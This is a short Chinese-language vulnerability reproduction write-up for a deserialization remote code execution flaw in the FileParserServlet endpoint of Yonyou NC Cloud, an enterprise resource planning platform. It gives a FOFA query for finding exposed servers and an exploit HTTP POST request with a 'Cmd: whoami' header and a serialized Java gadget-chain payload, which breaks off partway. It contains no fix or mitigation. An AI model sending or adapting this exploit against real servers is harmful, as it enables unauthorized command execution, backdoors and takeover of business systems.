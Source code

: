
# 用友NC Cloud FileParserServlet反序列化RCE漏洞复现

### 0x01 产品简介

 用友 NC Cloud 是一种商业级的企业资源规划云平台，为企业提供全面的管理解决方案，包括财务管理、采购管理、销售管理、人力资源管理等功能，实现企业的数字化转型和业务流程优化。

### 0x02 漏洞概述

用友 NC Cloud FileParserServlet接口存在反序列化代码执行漏洞，攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个web服务器。

### 0x03 复现环境

FOFA：app="用友-NC-Cloud"

![](assets/1701826097-0d170dcc8a231ed8025babd1f728c625.png)

### 0x04 漏洞复现

Exp

```cobol
POST /service/~uapss/nc.search.file.parser.FileParserServlet HTTP/1.1
Host: your-ip
Cmd: whoami
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 20434

{
  {unquote("\xac\xed\x00\x05sr\x00\x11java.util.HashSet\xbaD\x85\x95\x96\xb8\xb74\x03\x00\x00xpw\x0c\x00\x00\x00\x02?@\x00\x00\x00\x00\x00\x01sr\x004org.apache.commons.col
```
